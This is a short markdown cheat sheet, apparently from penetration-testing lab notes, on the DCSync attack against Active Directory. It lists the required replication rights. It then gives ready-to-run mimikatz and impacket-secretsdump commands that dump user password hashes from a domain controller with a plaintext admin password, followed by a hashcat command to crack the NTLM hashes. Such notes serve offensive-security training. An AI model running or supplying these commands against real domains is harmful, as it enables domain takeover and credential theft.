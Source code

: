 >[!NOTE] For DC Sync you need to have: 
> - Replicating Directory Changes  
> - Replicating Directory Changes all  
> - Replicating Directory Changes in Filtered Set 
> 
 ***Domain Admins, Enterprise Admins, and Administrators groups have this by default  ***
  
>[!NOTE] On Target  

```powershell
.\mimikatz.exe  
lsadump::dcsync /user:corp\dave  
```

>[!NOTE] Local 
# All users  
```bash
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.186.70  
```
  
# One user  
```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.186.70  
```

# Cracking Hash
```bash
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```